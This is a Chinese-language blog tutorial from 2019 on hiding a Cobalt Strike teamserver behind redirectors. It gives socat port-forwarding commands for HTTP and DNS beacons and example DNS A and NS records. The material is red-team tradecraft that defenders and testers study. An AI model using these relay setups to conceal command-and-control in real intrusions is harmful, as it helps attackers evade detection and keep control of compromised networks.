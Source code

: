 ```yaml
---
title: "Cobalt Strike 重定向器"
date: 2019-07-06T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ["cobalt strike"]
categories: ["内网渗透"]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



cobalt strike 通过重定向器来隐藏 c2 服务器.

本质其实就是用其它机器作为中转来连接 teamserver

以下提供两种方式, 端口转发工具不仅限于 socat

<!--more-->

## http beacon

在重定向器中执行命令

```
socat TCP4-LISTEN:8080,fork TCP4:[team server]:8080
```

添加 beacon

![redirector http beacon 1](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/redirector_http_beacon_1.jpg)

添加重定向器的 IP 或域名地址, 如果有多个重定向器, 将他们用逗号分隔.

![redirector http beacon 2](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/redirector_http_beacon_2.jpg)

## dns beacon

配置不同的 A 记录指向重定向器的 IP

之后配置 NS 记录指向重定向器所在域名.

```
r1         A   192.168.1.100
r2         A   192.168.1.101
r3         A   192.168.1.102
profile    NS  r1.exp10it.cn
games      NS  r2.exp10it.cn
pictures   NS  r3.exp10it.cn
```

在重定向器中执行命令, 如果使用 `windows/beacon_dns/reverse_dns_txt` 则仅须转发 53 端口.

```
socat UDP4-LISTEN:53,fork UDP4:[team server]:53
socat TCP4-LISTEN:8080,fork TCP4:[team server]:8080
```

添加 beacon

![redirector dns beacon 1](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/redirector_dns_beacon_1.jpg)

添加重定向器的 NS 域名, 如果有多个重定向器, 将他们用逗号分隔.

![redirector dns beacon 2](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/2019/redirector_dns_beacon_2.jpg)